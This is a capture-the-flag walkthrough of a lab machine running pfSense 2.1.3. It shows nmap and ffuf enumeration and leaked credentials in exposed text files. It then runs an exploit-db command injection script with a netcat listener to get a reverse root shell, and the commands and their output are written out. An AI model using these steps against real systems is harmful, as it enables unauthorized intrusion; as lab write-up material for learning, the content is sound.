

# Connect to the machine 

use openvpn or another vpn to connect to the machine as follows 

```shell
openvpn lab_acountname.ovpn
```

after that try to ping the machine to make sure you are connected 


```shell
ping 10.10.10.60
```

if you get response then we are ready to enumerate


# Recon

 using Nmap with default scripts with default scripts and with services versions

```shell
sudo nmap -sV -sC 10.10.10.60

->
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 03:22 EDT
Nmap scan report for 10.10.10.60
Host is up (0.046s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.25 seconds

```


to summery this result we have 2 ports open :

1. 80/http
2. 443/https


**Versions**

lighttpd 1.4.35

# Enumeration 

## check for version vulnarability

```shell
searchsploit lighttpd 1.4.35      

->
Exploits: No Results
Shellcodes: No Results
```

nothing here 

## checking the website main page

when we visit the website like we get redirected to `https://10.10.10.60/index.php` which includes a login form


searching for default credentials for pf sense leads us to:

Username  :  `admin`

Password  :  `pfsense`


but we get username or password is incorrect.


## Directory Fuzzing

Tried Fuzzing Directories with 

```shell
ffuf -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt  -u https://10.10.10.60/FUZZ  -ic 
```

but hadnt found usefull files , so i decided to Fuzz for Files with php,txt,zip,sh (to save tome just search for txt files) using

```shell
ffuf -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt  -u https://10.10.10.60/FUZZ -e .txt -ic
```

and found 2 Files :
1. changelog.txt

```shell
 curl -k https://10.10.10.60/changelog.txt    

->
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window  
```
	we used -k to not check for cerificate validation for https
which tells us that there is a vulnerability in the website


2. system-users.txt

```shell
curl -k https://10.10.10.60/system-users.txt 


->
####Support ticket###

Please create the following user


username: Rohit
password: company defaults 

```

which gives us the login credentials , i tried Rohit:company defaults but didnt work , so i used rohit:pfsense which logged us to the website.



we have the name pfsense and its version 2.1.3 , lets check for a vulnarability with searchsploit :

```shell
searchsploit pfsense 2.1.3

->
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## exploiting pfsense 2.1.3

looking which options the script takes:

```shell
python /usr/share/exploitdb/exploits/php/webapps/43560.py --help

->
usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME]
                [--password PASSWORD]

options:
  -h, --help           show this help message and exit
  --rhost RHOST        Remote Host
  --lhost LHOST        Local Host listener
  --lport LPORT        Local Port listener
  --username USERNAME  pfsense Username
  --password PASSWORD  pfsense Password

```

then we start a nc listener on port 4444

```shell
nc -lvnp 4444 
```

then passing the arguments and running the script

```shell

python /usr/share/exploitdb/exploits/php/webapps/43560.py --rhost 10.10.10.60 --lhost 10.10.16.2 --lport 4444 --username rohit --password pfsense

->
CSRF token obtained
Running exploit...
Exploit completed

```


and we optained a shell on our nc listener ,checking whoai gives us root, now we can find the flags using 

```shell
find /root /home -name "*.txt" 2>/dev/null

->
/root/root.txt
/home/rohit/user.txt

```

gaining the flags with 

```shell
cat /home/rohit/user.txt
cat /root/root.txt


```


# Lesson


- use -k with curl if you have a self-signed certificate and you want to ignore validation
- spend your time searching before going so deep in the enumeration

